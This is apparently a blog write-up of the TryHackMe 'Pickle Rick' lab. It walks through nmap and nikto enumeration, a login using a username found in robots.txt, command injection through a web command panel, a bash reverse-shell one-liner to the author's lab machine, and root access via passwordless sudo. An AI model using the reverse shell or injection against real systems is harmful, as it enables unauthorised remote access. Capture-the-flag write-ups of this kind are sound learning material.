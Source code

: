 ```yaml
---
title: "TryHackMe: Pickle Rick"
date: 2020-11-11 00:00:00 +/-TTTT
categories: [Writeups, TryHackMe, easy]
tags: [tryhackme, easy]     # TAG names should always be lowercase
---
```


> **Title**: Pickle Rick
>
>**Platform**: TryHackMe
>
>**Difficulty**: Easy
>
>**Objective**: Root the box and gain access to the three ingredients to turn Rick back into a human from a pickle.

<img src= "https://tryhackme-images.s3.amazonaws.com/room-icons/47d2d3ade1795f81a155d0aca6e4da96.jpeg" width="250" height="250" alt="logo.png"> <br>

[Challenge Link](https://tryhackme.com/room/picklerick)

 > [!NOTE]
 This writeup does not divulge the flags.

I am a big Rick & Morty fan so this was the natural first pick to kick off the write ups! Let’s get **Schwiftyyyyyyyy…**

## Enumeration

Let’s begin with our favorite tool in the whole wide world..`NMAP`!

```js
root@ip-10-10-2-8:~# nmap -sS 10.10.238.189

Starting Nmap 7.60 ( <https://nmap.org> ) at 2023-12-28 20:40 GMT
Nmap scan report for ip-10-10-238-189.eu-west-1.compute.internal (10.10.238.189)
Host is up (0.00064s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:A3:0A:ED:E4:EB (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.73 seconds
```

And with a few other switches..

```javascript
root@ip-10-10-2-8:~# nmap -sC -sV 10.10.238.189

Starting Nmap 7.60 ( <https://nmap.org> ) at 2023-12-28 20:41 GMT
Nmap scan report for ip-10-10-238-189.eu-west-1.compute.internal (10.10.238.189)
Host is up (0.00059s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ca:29:35:20:59:12:22:6d:b5:9e:71:a9:13:ae:74:c1 (RSA)
|   256 4d:ad:85:45:39:1f:4e:e4:c5:f5:27:14:57:d3:81:fd (ECDSA)
|_  256 ff:d6:fd:35:1d:6e:2b:e8:66:8b:33:20:eb:b2:f4:35 (EdDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
MAC Address: 02:A3:0A:ED:E4:EB (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 8.58 seconds
```

Navigating to Port 80 we are greeted with Grandpa RICK

![image](https://cdn.hashnode.com/res/hashnode/image/upload/v1705527366805/b4a313e6-97de-49cc-ab3f-4243af9103a7.png)

Viewing the source of the `index.html` page we see the following

![image2](https://cdn.hashnode.com/res/hashnode/image/upload/v1705527391473/f6847fe0-61a7-4fb2-b44b-f3c37d9137c0.png)

Now let’s enumerate the usual suspects using `nikto`

```javascript
root@ip-10-10-2-8:~# nikto -h <http://10.10.238.189>
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          10.10.238.189
+ Target Hostname:    ip-10-10-238-189.eu-west-1.compute.internal
+ Target Port:        80
+ Start Time:         2023-12-28 20:44:37 (GMT0)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ Server leaks inodes via ETags, header found with file /, fields: 0x426 0x5818ccf125686 
+ The anti-clickjacking X-Frame-Options header is not present.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ "robots.txt" retrieved but it does not contain any 'disallow' entries (which is odd).
+ Allowed HTTP Methods: OPTIONS, GET, HEAD, POST 
+ Cookie PHPSESSID created without the httponly flag
+ OSVDB-3233: /icons/README: Apache default file found.
+ /login.php: Admin login page/section found.
+ 6544 items checked: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2023-12-28 20:44:47 (GMT0) (10 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

* `robots.txt`
    
    I couldn’t stop laughing when I saw the entry
    
    ![image3](https://cdn.hashnode.com/res/hashnode/image/upload/v1705527420086/9bb35c2a-bf34-4351-b62e-833c0c7a0da7.png)
    
* `login.php`
    
    Let’s try a few standard combinations for usernames and passwords
    

![image4](https://cdn.hashnode.com/res/hashnode/image/upload/v1705527440172/6d9a96d0-79f7-4802-8d13-b367a7d3c0ab.png)

Username found earlier with the `robots.txt` entry combination works and we are in!

We are now logged into a `portal.php`

![image5](https://cdn.hashnode.com/res/hashnode/image/upload/v1705527456037/e5603924-17d9-47fa-8b09-b628685f1fb2.png)

All the other tabs redirect to `denied.php` so we will investigate the command panel with something simple for a command injection

`Cat` the first one doesn’t work and we get a Command disabled message so let’s look at the `clue.txt`

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1705527470931/acaa5158-d97b-4a2c-b333-37cbb0d550ca.png)

`Cat` and `tail` and similar commands do not work but we notice that `grep` works, now we use a shwifty little trick to read the text file like so

```jsx
grep -v "test" filename
```

Voila! We have our first ingredient!

## I Smell a Shell Morty!

Let’s try to pop a shell and we see we get a similar response with `sh` and a few moments later this works

```bash
bash -c 'sh -i >& /dev/tcp/10.10.2.8/4444 0>&1'
```

We read the `clue.txt` and go to `/home` and we see the second ingredient folder and go grab it.

You don't necessarily need to pop a shell, you can get by with command injection in the panel we saw earlier but shells are fun and I like poppin' them.

## One Step Closer....All powerful Root!

Now for the final ingredient which is root probably we see that the user `www-data`has sudo access and we run sudo -l to see what privileges our user has.

```bash
(ALL) NOPASSWD: ALL
```

Don't we just love when this happens?

```bash
sudo -i
```

We are root!

Head to the root directory and we have our final ingredient.

That's all for today folks, see you on the next one!